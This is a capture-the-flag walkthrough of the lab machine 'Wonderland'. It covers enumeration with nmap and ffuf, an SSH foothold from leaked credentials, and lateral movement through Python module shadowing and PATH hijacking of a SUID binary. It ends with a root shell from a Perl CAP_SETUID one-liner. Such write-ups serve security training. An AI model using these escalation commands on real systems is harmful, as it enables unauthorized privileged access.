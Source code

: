 # Wonderland

{% hint style="info" %}
Overall it was a fun box. Pretty basic enumeration and exploitation techniques we just have to keep up with the a bit long attack vector. Before diving into the walk-through here's a summary of some of the techniques we'll cover shortly:

1. The enumeration didn't have anything complicated: <mark style="color:blue;">basic nmap scan, few fuzzing</mark> and we find some <mark style="color:blue;">cleartext credentials</mark> that'll ssh us into the machine as a regular user. The user flag was in a very strange directory (as the comments stated as well)
2. To get to root, we'll be doing some <mark style="color:blue;">lateral movement</mark> as well. from the foothold as Alice we'll exploit a basic <mark style="color:blue;">Module Shadowing</mark> to gain access to rabbit.
3. From there, we'll find a binary with a <mark style="color:blue;">SUID bit</mark> that we'll use to gain access to hatter account through a <mark style="color:blue;">PATH Hijacking</mark>.
4. Finally, for root, back to the basics after some manual inspection, linpeas.sh (after <mark style="color:blue;">File transferring</mark> it to the target) shows <mark style="color:blue;">CAP\_SETUID</mark> available for the Perl interpreter!

Pwned successfully!
{% endhint %}

## Enumeration

```bash
┌──(alyosha㉿Karamazov)-[~/thm/wonderland]
└─$ sudo sh -c 'echo "<IP> wonderland.thm" >> /etc/hosts'
```

### Nmap

```bash
┌──(alyosha㉿Karamazov)-[~/thm/wonderland]
└─$ nmap wonderland.thm -sV -sC -Pn -T4 -oN def-scripts-scan -vv

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<figure><img src="../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Okay then let's follow the white rabbit. To fuzzing now. Normally at this point we like to leave a UDP scan to run in the background or a full ports TCP scan and proceed further in our enumeration because nmap only scans the first top 1000 ports. We could possibly miss something if we only check those ports. For this machine the scan lead to nothing so you should step over that part and think about it for the next machines :smile:.

### Fuzzing

#### Subdomains/Vhosts

The scan for subdomains/Vhosts lead to nothing for this box. So we move on. (For the command below, you should consider a filter of your own with ffuf because we'll get lots of irrelevant stuff)

```bash
$ffuf -w <wordlist.txt>:FUZZ -u http://wonderland.thm -c -H 'Host: FUZZ.wonderland.thm'
```

#### Directories

```bash
$ffuf -w <wordlist.txt>:FUZZ -u http://wonderland.thm/FUZZ -c -v 
```

The command above will return the following directories:&#x20;

<figure><img src="../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

The `/img` directory was also clear to find when inspecting the home page.

<figure><img src="../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

Containing the following files:

<figure><img src="../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

Looking for fuzzing the other sub directories we find the following pattern:

<figure><img src="../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

Intuitively, checking the source code of every directory we find, we stumble upon what seems to be Clear-text Credentials of user Alice:

<figure><img src="../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

## Foothold/user flag - Alice

Since for now we didn't find any login portal, ssh is the only way we could possibly gain a foothold. Which was successful!

<figure><img src="../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

Okay root flag file in the home directory? Strange. How to deal with strange? Be even more strange:

<figure><img src="../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
<mark style="color:green;">User flag acquired.</mark>
{% endhint %}

## Lateral Movement

### 2nd User - Rabbit

```bash
$find / -perm -4000 2>/dev/null
```

<figure><img src="../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

```
$find / -perm -2000 2>/dev/null
```

<figure><img src="../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

Nothing in here.

At this point, we normally look for kernel exploit or a critical kernel vulnerability (Which is also done right after gaining foothold at the machine.) which also lead to nothing in this machine.

The command below tells us what binaries we can run as sudoers (if misconfigured):

```bash
$sudo -l
```

<figure><img src="../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

Okay, if we find a way to exploit the `walrus*.py` file and combine it with sudo command as `rabbit` user, we could get a shell as `rabbit`. Let's enumerate further.

Running the python script and checking the source code, we found nothing BUT thee first line:

<figure><img src="../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

This will lead to <mark style="color:red;">module shadowing</mark>, which is exploiting the way python imports modules, tricking the interpreter to import a local version of the random module. This is due to the random module is a `.py` file not a precompiled binary(built-in). Here's some resources to dive more into that vulnerability:

{% embed url="https://realpython.com/videos/shadowing-modules-video/" %}

{% embed url="https://docs.python.org/3/reference/import.html" %}

```bash
$echo "import os;os.system('/bin/sh')" > random.py
$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

<figure><img src="../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
<mark style="color:green;">Okay we're moving laterally</mark> :smile:
{% endhint %}

### 3rd User - Hatter

Intuitively checking the rabbit's home directory:

<figure><img src="../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

Alright, no `strings` command, no `binwalk`, no `ltrace`, no `strace`. we gotta transfer this file to our local machine.

#### File Transfer

This can be done using many methods. We could use `scp` tool which is based on ssh, simple base64 encoding, or using a `python HTTP server`. BUT, in our case, the most efficient and quick way is setting up a `python HTTP server` and download the file with curl/wget. This is because we have access to the python interpreter and in order to use scp, we will need to add an ssh key for user rabbit.

Here's how we're going to do it:

```bash
compromized-host$cd /home/rabbit
compromized-host$python3 -m http.server
```

```bash
attacking-machine$wget http://target-ip:8000/teaParty
```

<figure><img src="../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

Okay, no need to debug or anything, we got something interesting:

```bash
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

Here's why this line of code might be vulnerable: the one-liner  uses non relative path for the date command. So if thee system relies of the PATH variable to execute the command, we might alter  the PATH variable and point it to a malicious binary of our choice, and since teaParty has SUID bit set, we can move forward to the next user. Here we go:

```bash
compromized-host$echo '#! /bin/bash\n/bin/sh' > /tmp/date
# You can choose the home directory not the /tmp.  
compromized-host$
compromized-host$chmod +x /tmp/date
compromized-host$export PATH=/tmp:$PATH
compromized-host$./teaParty
```

<figure><img src="../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

Now with the cleartext credentials on the home directory we ssh into the server with hatter user.

## Privilege Escalation

After getting the [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script on the machine using one of the methods we [mentioned](wonderland.md#file-transfer). We get interesting vulnerable stuff:

<figure><img src="../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

> Traditionally, a Linux process is either privileged (running as root) or unprivileged. Privileged processes are not subject to kernel permission checks, and thus have full power over a system. A capability is a distinct and independent privilege that can be used by a process to bypass certain permission checks. Capabilities were first introduced in Linux 2.2, and several more were added in later versions. They are usually set on executable files and are automatically granted to the process when a file with a capability is executed. Capabilities essentially divide the power of the root user into separate privileges, which improves security by limiting the access an attacker would gain by exploiting or abusing a service

So, i simple perl script that sets the hatter user ID to 0 will bypass all the privileges checking since the process will have that specific capability. Here's a script i found on [GTFObins](https://gtfobins.github.io/gtfobins/perl/).

```bash
$/usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

<figure><img src="../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
<mark style="color:green;">Rooted</mark> :smile: :tada:
{% endhint %}

